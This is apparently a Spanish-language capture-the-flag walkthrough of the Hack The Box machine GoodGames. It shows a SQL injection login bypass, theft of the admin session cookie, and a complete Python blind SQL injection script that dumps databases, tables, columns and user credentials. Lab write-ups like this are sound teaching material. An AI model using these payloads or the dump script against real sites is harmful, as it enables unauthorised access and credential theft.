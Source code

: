 # Enumeración
1. Nos creamos una cuenta y nos deslogeamos.
2. Interceptamos la petición de login con *Caido*. Poniendo cualqueir mail valido con "@", por que si no no vamos a llegar a mandar la peticion y no la va a poder interceptar caido, ya que se hace una verificacion a nivel de navegador del @
3. En el campo del email vamos a hacer la inyeccion con:
    ```
    admin' or 1=1-- -
    ```

- Intentar saltar el login mediante una inyección SQL como por ejemplo admin' or 1 = 1 -- -
   La vulnerabilidad permite acceder como el primer usuario de la base de datos, usualmente `admin`.

4. En el campo de contraseña ponemos cualquier cosa.

Esto nos logueará como el usuario `admin`, entregándonos su cookie de sesión.

![[Goodgames3.png]]

Luego, ingresamos a nuestra cuenta previamente creada y **cambiamos la cookie de sesión por la de admin**.

![[Goodgames4.png]]

Con `CTRL + SHIFT + I` vamos a la pestaña de cookies y la modificamos.

![[Goodgames5.png]]

---

## 🛠️ Acceso al Panel Interno

Desde el panel de administrador, accedemos a la tuerquita (⚙️) que nos redirige a:

```
http://internal-administration.goodgames.htb/login
```

Debemos agregar el dominio en el archivo `/etc/hosts`:

```
10.10.11.130 internal-administration.goodgames.htb
```

![[Goodgames6.png]]

Una vez dentro, tenemos un **nuevo panel de login** en el cual no nos deja hacer ningun tipo de inyeccion

![[Goodgames7.png]]




---

# Explotacion



# Script para explotacion
En el campo de login en el cual hicimos la inyeccion previamente, con este script vamos a empezar a dumpear todos los datos, para hacernos con el usuario y la contraseña

```python
#!/usr/bin/env python3

from pwn import *
import requests, signal, sys, string, time


###CTRL +C###
def def_handler(sig, frame):
    print("\n\n Saliendo..\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)
###Fin CTRL+C##

#Variables globales
characters = string.ascii_lowercase + "_-:,;" + string.ascii_uppercase + string.digits
main_url = "http://10.10.11.130/login"
headers = {'Content-Type': 'application/x-www-form-urlencoded'}

def sqli():

    data = ""
    p1 = log.progress("SQLI")
    p1.status("Iniciando ataque")
    time.sleep(1)
    p2 = log.progress("Data")

    for position in range(1, 500):
        for character in characters:
            payload = f"' or substring((select group_concat(schema_name) from information_schema.schemata),{position},1)='{character}'-- -" //Dumpear bases de datos
            #payload = f"' or substring((select group_concat(table_name) from information_schema.tables where table_schema='main'),{position},1)='{character}'-- -" //Dumpear tablas
            #payload = f"' or substring((select group_concat(column_name) from information_schema.columns where table_schema='main' and table_name='user'),{position},1)='{character}'-- -" //Dumpear columnas
            #payload = f"' or substring((select group_concat(name,0x3a,password) from main.user),{position},1)='{character}'-- -" #Dumpear datos finales
            post_data = {
                "email": payload,
                "password": "test"
                }

            r = requests.post(main_url, data=post_data, headers=headers)

            if "Login Success" in r.text:
                data += character
                p2.status(data)
                break


if __name__ == '__main__':
    sqli()
```